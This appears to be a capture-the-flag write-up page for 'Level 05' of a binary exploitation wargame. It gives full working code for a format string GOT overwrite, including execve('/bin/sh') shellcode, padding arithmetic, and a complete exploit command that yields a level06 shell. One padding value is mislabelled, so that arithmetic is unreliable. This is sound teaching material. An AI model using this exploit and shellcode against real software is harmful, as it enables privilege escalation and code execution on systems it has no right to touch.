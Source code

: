 ```yaml
---
sidebar_position: 7
---
```


import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';
import MissionObjective from '@site/src/components/MissionObjective';
import VulnerabilityCard from '@site/src/components/VulnerabilityCard';
import CodeBlock from '@site/src/components/CodeBlock';
import StepsList from '@site/src/components/StepsList';

# 🧞‍♂️ Level 05

<MissionObjective 
  level="Level 05"
  target="level06 privileges"
  method="Format string vulnerability with GOT overwrite"
/>

## Vulnerability Analysis

<VulnerabilityCard 
  type="Format String Vulnerability with GOT Overwrite"
  severity="critical"
  description="The binary uses printf(buffer) without format string, allowing arbitrary memory read/write. Combined with GOT overwrite technique, this enables shellcode execution by redirecting exit() calls."
  techniques={[
    "Format String Exploit",
    "GOT Overwrite", 
    "Shellcode Injection",
    "Environment Variable Abuse"
  ]}
/>

## Initial Program Analysis

<CodeBlock 
  title="Program Behavior"
  command="./level05"
  output={`$ ./level05
coucou
coucou
[Program exits]`}
/>

**Key Observations:**
- Program reads input and echoes it back
- Uses `fgets()` to read into 100-byte buffer
- Vulnerable `printf(buffer)` call - no format string!

## Vulnerability Discovery

<CodeBlock 
  title="GDB Assembly Analysis"
  command="gdb ./level05"
  output={`(gdb) disassemble main
...
0x08048500 <+188>: lea eax,[esp+0x28]   ; buffer address
0x08048504 <+192>: mov DWORD PTR [esp],eax
0x08048507 <+195>: call 0x8048340 <printf@plt>
...`}
/>

**Critical Vulnerability:**
```c
char buffer[100];
fgets(buffer, 100, stdin);
printf(buffer);  // <- FORMAT STRING VULNERABILITY
```

## Format String Analysis

<CodeBlock 
  title="Stack Position Detection"
  command='python -c "print(\"BBBB-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x\")" | ./level05'
  output={`BBBB-64-f7fcfac0-f7ec3af9-ffffd6ff-ffffd6fe-0-ffffffff-ffffd784-f7fdb000-42424242-2d78252d
                                                                                      ^^^^^^^^
                                                                              BBBB found at 10th position`}
/>

**Key Finding:** Our input appears at the **10th argument position** (`%10$`)

## Shellcode Preparation

<CodeBlock 
  title="Environment Variable Shellcode"
  command="export PAYLOAD"
  output={`PAYLOAD=$(python -c 'print("\\x90"*1000 + 
"\\xeb\\x1f\\x5e\\x89\\x76\\x08\\x31\\xc0\\x88\\x46\\x07\\x89\\x46\\x0c" +
"\\xb0\\x0b\\x89\\xf3\\x8d\\x4e\\x08\\x8d\\x56\\x0c\\xcd\\x80\\x31\\xdb" +
"\\x89\\xd8\\x40\\xcd\\x80\\xe8\\xdc\\xff\\xff\\xff/bin/sh")')`}
/>

**Shellcode Components:**
- **NOP Sled**: 1000 bytes of `\x90` for reliable landing
- **Shellcode**: Classic execve("/bin/sh") payload
- **Strategy**: Store in environment for stable address

## Address Resolution

<StepsList
  title="Getting Shellcode Address"
  steps={[
    {
      title: "Create Address Helper",
      description: "Compile utility to get environment variable address",
      command: "gcc -m32 -o getenv getenv.c",
      result: "Helper program created"
    },
    {
      title: "Get Shellcode Address",
      description: "Find where PAYLOAD is stored in memory",
      command: "env -i PAYLOAD=$PAYLOAD /tmp/getenv PAYLOAD",
      result: "0xffffdc59 (example address)"
    },
    {
      title: "Locate exit() GOT Entry",
      description: "Find Global Offset Table entry for exit()",
      command: "(gdb) info functions exit",
      result: "exit@got.plt = 0x080497e0"
    }
  ]}
/>

<CodeBlock 
  title="Helper Program (getenv.c)"
  command="cat getenv.c"
  output={`#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    printf("%p\\n", getenv(argv[1]));
    return 0;
}`}
/>

## GOT Overwrite Strategy

<CodeBlock 
  title="Target Analysis"
  command="(gdb) x/i 0x08048370"
  output={`0x08048370 <exit@plt>: jmp *0x080497e0
                                    ^^^^^^^^^^
                              GOT entry to overwrite`}
/>

**Attack Plan:**
- **Target**: `exit@got.plt` at `0x080497e0`
- **Goal**: Overwrite with shellcode address `0xffffdc59`
- **Method**: Format string `%n` writes

## Payload Construction

<CodeBlock 
  title="Address Splitting for 16-bit Writes"
  command="# Split 0xffffdc59 into two 16-bit writes"
  output={`Address: 0xffffdc59
Low bytes:  0xdc59 = 56401 decimal
High bytes: 0xffff = 65535 decimal

Write order:
1. 0x080497e0 <- 0xdc59 (lower 2 bytes)
2. 0x080497e2 <- 0xffff (upper 2 bytes)`}
/>

<CodeBlock 
  title="Format String Payload"
  command='python -c "print format_string"'
  output={`\\xe0\\x97\\x04\\x08   # Address 1: exit@got.plt
\\xe2\\x97\\x04\\x08   # Address 2: exit@got.plt+2
%56401d          # Pad to 0xdc59
%10$hn           # Write low bytes to address 1
%9126d           # Pad additional (65535-56401)
%11$hn           # Write high bytes to address 2`}
/>

## Final Exploitation

<CodeBlock 
  title="Complete Exploit Command"
  command="Launch exploit"
  output={`(python -c 'print "\\xe0\\x97\\x04\\x08"+
"\\xe2\\x97\\x04\\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"';cat) | 
env -i PAYLOAD=$(python -c 'print "\\x90"*1000+
"\\xeb\\x1f\\x5e\\x89\\x76\\x08\\x31\\xc0\\x88\\x46\\x07\\x89\\x46\\x0c"+
"\\xb0\\x0b\\x89\\xf3\\x8d\\x4e\\x08\\x8d\\x56\\x0c\\xcd\\x80\\x31\\xdb"+
"\\x89\\xd8\\x40\\xcd\\x80\\xe8\\xdc\\xff\\xff\\xff/bin/sh"') ./level05`}
/>

<CodeBlock 
  title="Successful Exploitation"
  command="# After exploit execution"
  output={`$ whoami
level06
$ cat /home/users/level06/.pass
[SUCCESS - Next level password revealed]`}
/>

## Technical Deep Dive

### Format String Mechanics

:::tip **How %n Works**
- `%d` consumes argument and prints decimal
- `%hn` writes number of printed characters (2 bytes) to address
- Position `%10$hn` writes to 10th argument (our controlled address)
- Padding controls the value written
:::

### GOT Overwrite Process

<CodeBlock 
  title="Memory Layout During Exploit"
  command="# Before and after GOT overwrite"
  output={`BEFORE:
exit@got.plt (0x080497e0): [libc exit address]

AFTER:  
exit@got.plt (0x080497e0): 0xffffdc59 (shellcode)

When program calls exit() -> jumps to our shellcode!`}
/>

## Exploit Breakdown

<StepsList
  title="Attack Sequence"
  steps={[
    {
      title: "Shellcode Injection",
      description: "Store shellcode in environment variable",
      command: "export PAYLOAD=...",
      result: "Shellcode at stable memory address"
    },
    {
      title: "Address Resolution",
      description: "Find shellcode and GOT addresses",
      command: "getenv + GDB analysis",
      result: "Target and destination addresses known"
    },
    {
      title: "Format String Attack",
      description: "Overwrite exit@got with shellcode address",
      command: "printf(controlled_format_string)",
      result: "GOT entry redirected to shellcode"
    },
    {
      title: "Trigger Execution",
      description: "Program calls exit() -> executes shellcode",
      command: "Normal program termination",
      result: "Shell spawned with escalated privileges"
    }
  ]}
/>

## Key Learning Points

:::warning **Advanced Techniques**
- **GOT Overwrite**: Hijacking function pointers in Global Offset Table
- **Format String Arithmetic**: Calculating precise padding values
- **Environment Exploitation**: Using env vars for stable shellcode addresses
- **Multi-stage Writes**: Using `%hn` for 16-bit writes to build full address
:::

## Technical Summary

This level demonstrates:
1. **Advanced Format String Exploitation** - Beyond simple memory disclosure
2. **GOT Overwrite Technique** - Function pointer hijacking
3. **Shellcode Injection via Environment** - Alternative delivery method
4. **Precise Memory Manipulation** - Calculated writes to specific addresses
5. **Binary Exploitation Chaining** - Combining multiple techniques

The vulnerability showcases how format string bugs can escalate from information disclosure to arbitrary code execution through careful memory manipulation.